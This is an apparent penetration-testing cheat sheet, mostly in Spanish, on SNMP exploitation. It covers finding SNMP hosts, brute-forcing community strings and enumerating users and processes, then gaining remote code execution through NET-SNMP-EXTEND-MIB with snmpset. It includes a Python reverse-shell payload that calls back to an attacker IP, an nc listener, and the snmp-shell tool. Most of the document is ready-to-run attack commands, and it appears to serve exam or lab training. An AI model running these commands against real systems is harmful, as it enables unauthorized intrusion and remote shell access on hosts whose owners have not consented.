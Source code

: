 ## SNMP RCE Cheatsheet

Este documento resume cómo **detectar, enumerar y explotar vulnerabilidades de SNMP** que permiten ejecución remota de comandos a través del módulo **NET‑SNMP‑EXTEND‑MIB**.

---

### 1. Introducción

* **Servicio**: SNMP (Simple Network Management Protocol).
* **Versión afectada**: SNMPv2c con *community string* de escritura (`rwcommunity`).
* **Comportamiento clave**: El MIB `NET‑SNMP‑EXTEND‑MIB` permite registrar comandos que se ejecutan al leerlos (`run-on-read`).

> Si el atacante conoce la comunidad **de lectura** → puede enumerar info sensible.
> Si además conoce la comunidad **de escritura** → puede inyectar comandos y lograr **RCE**.

---

### 2. Enumeración inicial de SNMP

#### 2.1 Nmap 
* Find hosts with SNMP running and output them to a file:
```bash
sudo nmap -sU --open -p 161 <targetRange> -oG open-snmp.txt
```
* Bruteforcing community strings:
```bash
sudo nmap -sU -p 161 --script snmp-brute <ipAddr>
```
* Bruteforcing community strings with custom wordlist:
```bash
sudo nmap -sU -p 161 --script snmp-brute --script-args snmp-brute.communitiesdb=/usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt <ipAddr>
```
* Enumerate users on remote machine:
```bash
sudo nmap -sU -p 161 --script snmp-win32-users <ipAddr>
```
* Enumerate services on remote machine:
```bash
sudo nmap -sU -p 161 --script snmp-win32-services <ipAddr>
```
* Run all SNMP-related Nmap Scripts:
```bash
sudo nmap -sU -p 161 --script snmp-* <ipAddr> -oG nmap/snmp.txt
```

#### 2.2 Enumerar con `snmpwalk`

* Enumeración básica con community pública
```bash
snmpwalk -v2c -c public <host>
```
* Enumerar usuarios del sistema
```bash
snmpwalk -v2c -c public <host> 1.3.6.1.4.1.77.1.2.25
```
* Enumerar procesos
```bash
snmpwalk -v2c -c public <host> 1.3.6.1.2.1.25.4.2.1.2
```
* Enumerar software instalado
```bash
snmpwalk -v2c -c public <host> 1.3.6.1.2.1.25.6.3.1.2
```
* Enumerate SNMPv1 with a community string of “public” AND limit timeouts to 10 seconds:
```bash
snmpwalk -c public -v1 -t 10 <ipAddr>
```
* Enumerate SNMPv1 with a community string of “public” AND automatically translate any hexadecimal string into ASCII that was otherwise not decoded
```bash
snmpwalk -c public -v1 -Oa <ipAddr>
```
* Enumerate SNMPv2 with a community string of “public”:
```bash
snmpwalk -v2c -c public <ipAddr>
```
* Enumerate SNMPv2 with a community string of “public”AND search for installed software:
```bash
snmpwalk -v2c -c public <ipAddr> hrSWInstalledName
```
* Enumerate SNMPv2 with a community string of “public”AND search amount of RAM on the host:
```bash
snmpwalk -v2c -c public <ipAddr> hrMemorySize
```

#### 2.3 Identificar strings de comunidad

* Intentar con: `public`, `private`, `manager`.
* Herramienta útil:

* Fuerza bruta de comunidades con onesixtyone
```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt <IP>
```
---

```bash
onesixtyone -c dict.txt <host>
```

Si --> `rwcommunity`, avanzar a RCE.

---

### 3. Explotación: SNMP RCE con `NET‑SNMP‑EXTEND‑MIB`

#### 3.1 Crear un comando remoto con `snmpset`

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c <rwcommunity> <host> \
 'nsExtendStatus."testcmd"' = createAndGo \
 'nsExtendCommand."testcmd"' = /bin/echo \
 'nsExtendArgs."testcmd"' = 'hola mundo'
```

* `nsExtendStatus` → crea la entrada.
* `nsExtendCommand` → comando a ejecutar.
* `nsExtendArgs` → argumentos.

#### 3.2 Ejecutar y verificar

```bash
snmpwalk -v2c -c <rwcommunity> <host> NET-SNMP-EXTEND-MIB::nsExtendObjects
```

Esto dispara la ejecución y muestra la salida.

#### 3.3 Reverse shell manual

* Ejemplo con Python:

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c <rwcommunity> <host> \
 'nsExtendStatus."shell"' = createAndGo \
 'nsExtendCommand."shell"' = /usr/bin/python3 \
 'nsExtendArgs."shell"' = '-c "import socket,os,pty;s=socket.socket();s.connect((\"<mi_IP>\",<mi_puerto>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
* Dispara la ejecución
```bash
snmpwalk -v2c -c <rwcommunity> <host> NET-SNMP-EXTEND-MIB::nsExtendObjects
```

* Receptor:

```bash
nc -lvnp <puerto>
```
---

### 4. Explotación automática con snmp-shell

#### 4.1 Instalación

```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell.git
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

#### 4.2 Uso

```bash
python3 snmp-shell.py -t <host> -c <rwcommunity>
```

Obtendrás una shell interactiva vía SNMP.

---

### 5. Cheatsheet Resumido

| Etapa | Acción                      | Comando                                                                                         |
| ----- | --------------------------- | ----------------------------------------------------------------------------------------------- |
| 1     | Descubrir puerto UDP SNMP   | `nmap -sU -p 161 <host>`                                                                        |
| 2     | Enumerar info SNMP          | `snmpwalk -v2c -c public <host>`                                                                |
| 3     | Descubrir community strings | `onesixtyone -c dict.txt <host>`                                                                |
| 4     | Crear comando remoto        | `snmpset -m +NET-SNMP-EXTEND-MIB -v2c -c rwcomm <host> 'nsExtendStatus."test"'=createAndGo ...` |
| 5     | Ejecutar comando            | `snmpwalk -v2c -c rwcomm <host> NET-SNMP-EXTEND-MIB::nsExtendObjects`                           |
| 6     | Reverse shell               | Inyectar comando con Python + ejecutar `snmpwalk`                                               |
| 7     | Exploitar con snmp-shell    | `python3 snmp-shell.py -t <host> -c rwcomm`                                                     |

---

### 6. Tabla OIDs

| OID | Descripcion |
|-----|-------------| 
| 1.3.6.1.2.1.1 | Informacion general |
| 1.3.6.1.4.1.77.1.2.25 | Usuarios | 
| 1.3.6.1.4.1.77.1.2.3 | Recursos Compartidos |
| 1.3.6.1.2.1.25.2.3.1.4 | Unidades de almacenamiento |
| 1.3.6.1.2.1.25.4.2.1.2 | Programas en ejecucion | 
| 1.3.6.1.2.1.25.1.6.0 | Procesos del sistema |
| 1.3.6.1.2.1.25.4.2.1.4 | Process path |
| 1.3.6.1.2.1.25.6.3.1.2 | Software instalado |
| 1.3.6.1.2.1.4.20.1.1 | IPs configuradas | 
| 1.3.6.1.4.1 | String texto plano |
| 1.3.6.1.2.1.6.13.1.3 | Puertos TCP |


✅ **Checklist en examen**:

1. ¿Puerto 161 abierto? → Enumerar.
2. ¿Community de lectura? → Extraer información.
3. ¿Community de escritura? → Intentar RCE con `snmpset`.
4. ¿Necesito shell? → Payload Python + `snmpwalk`.
5. Automatizar si es posible con `snmp-shell`.
